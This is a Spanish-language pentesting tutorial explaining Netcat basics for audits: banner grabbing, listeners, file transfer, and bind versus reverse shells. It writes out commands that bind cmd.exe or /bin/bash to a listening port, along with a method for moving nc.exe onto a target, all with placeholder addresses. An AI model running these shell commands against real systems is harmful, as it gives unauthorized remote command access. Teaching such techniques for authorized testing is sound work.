


# Conexión remota

Durante una auditoría es necesario interactuar con sistemas remotos ya que muchas fases de una evaluación requieren obtener o mantener acceso a un sistema objetivo de forma controlada. Para ello existen diferentes mecanismos que permiten establecer canales de comunicación entre dos equipos a través de una red.

## Fundamentos de `Netcat`

**`Netcat`** (también conocida como la *navaja suiza de TCP/IP*) es una utilidad de red utilizada para leer y escribir datos a través de conexiones de red utilizando los protocolos TCP o UDP. Está disponible tanto para sistemas operativos \*NIX como para Windows, lo que la convierte en una herramienta extremadamente útil en entornos de pentesting multiplataforma.

`Netcat` utiliza una arquitectura de comunicación cliente-servidor con dos modos de funcionamiento:

- **Modo cliente:** permite conectarse a cualquier puerto TCP/UDP o a un listener de `Netcat` (servidor).
- **Modo servidor:** permite escuchar conexiones entrantes de clientes en un puerto específico.

Puede utilizarse para:

- **Banner Grabbing**
- **Escaneo de puertos**
- **Transferencia de archivos**
- **Bind Shells y Reverse Shells**

### Uso básico

#### Establecer una conexión TCP con un host remoto

Puede usarse para realizar *banner grabbing*.

Parámetros:

- **-n:** evita la resolución DNS.
- **-v:** modo verbose.

```bash
nc -nv <IP> <Puerto>
```

#### Conexión *UDP*

```bash
nc -u <IP> <Puerto>
```

#### Habilitar el modo servidor (*listener*)

Esto es un ejemplo de como establecer la conexión entre dos equipos mediante `Netcat`. Para comprender su uso durante un pentesting es necesario leer las siguientes secciones.

El primer paso es transferir `netcat` a *Windows*. Para ello podemos usar `nc.exe`, la versión precompilada disponible en kali que se encuentra en `/usr/share/windows-binaries`.

Para transferir este ejecutable hay dos formas:

- Crear un servidor web que aloje el ejecutable y descargarlo desde navegador del objetivo.
- Crear un servidor web que aloje el ejecutable y descargarlo en el objetivo mediante comandos.

Podemos lanzar el servidor con el módulo `SimpleHTTPServer` de *Python*:

```bash
python -m SimpleHTTPServer 80
```

Una vez descargado, podemos poner a `Netcat` en modo escucha (*listener*), esperando conexiones entrantes en el puerto especificado.

Parámetros:

- **-l:** (listen) indica que Netcat debe escuchar conexiones entrantes.
- **-p:** especifica el puerto en el que escuchará.

```bash
nc -nvlp <Puerto>
```

#### Transferir archivos desde el cliente al servidor

Servidor:

```bash
nc -nvlp <Puerto> > <archivo>
```

Cliente:

```bash
nc -nv <IP> <Puerto> < <archivo>
```

## Bind shell

Una bind shell o shell de enlace es un tipo de intérprete de comandos remoto en el que un sistema establece un servicio de escucha sobre un puerto de red determinado y permanece a la espera de conexiones entrantes. Cuando se establece una conexión válida, se proporciona acceso a un entorno de línea de comandos asociado al sistema remoto, permitiendo la interacción con el.

Su funcionamiento depende de diversos factores relacionados con la conectividad, el direccionamiento de red y las políticas de control de acceso implementadas en la infraestructura donde se despliegan.

Una de las principales limitaciones de este modelo reside en la necesidad de que el puerto utilizado para la escucha sea accesible desde el exterior. En entornos modernos, los mecanismos de protección perimetral, como firewalls, sistemas de filtrado de paquetes, dispositivos NAT y soluciones de segmentación de red, suelen restringir o bloquear las conexiones entrantes no autorizadas.



En el lado del objetivo necesitamos crear un `netcat` listener que permita la ejecución de programas:

```bash
# Windows
nc -nvlp <Puerto> -e cmd.exe

# Linux
nc -nvlp <Puerto> -c /bin/bash
```

El el lado atacante simplemente iniciamos una conexión, que si es válida, ejecutará el programa dando acceso a una consola.

```bash
nc -nv <IP> <Puerto>
```

## Reverse shell

Una shell inversa (*reverse shell*) es un tipo de shell remota en la que el sistema objetivo establece una conexión hacia un listener de `netcat` en el equipo del atacante, permitiéndole ejecutar comandos de forma remota sobre el objetivo.

La principal ventaja de una shell inversa es que la conexión se inicia desde el propio sistema comprometido, por lo que no es necesario que este tenga `netcat` instalado. Esto contrasta con una *bind shell*, donde la única forma de establecer la conexión es que el objetivo disponga de la herramienta necesaria para escuchar conexiones entrantes.

Además, las shells inversas suelen ser más efectivas en entornos reales, ya que es menos habitual que el tráfico saliente esté bloqueado por firewalls o proxies.

Sin embargo, también presentan un inconveniente importante: el sistema objetivo necesita conocer la dirección IP del atacante para poder establecer la conexión. Esto implica dos problemas principales:

- El exploit debe incluir algún mecanismo para proporcionar al objetivo la dirección IP del atacante.
- La dirección IP del atacante queda expuesta al objetivo.



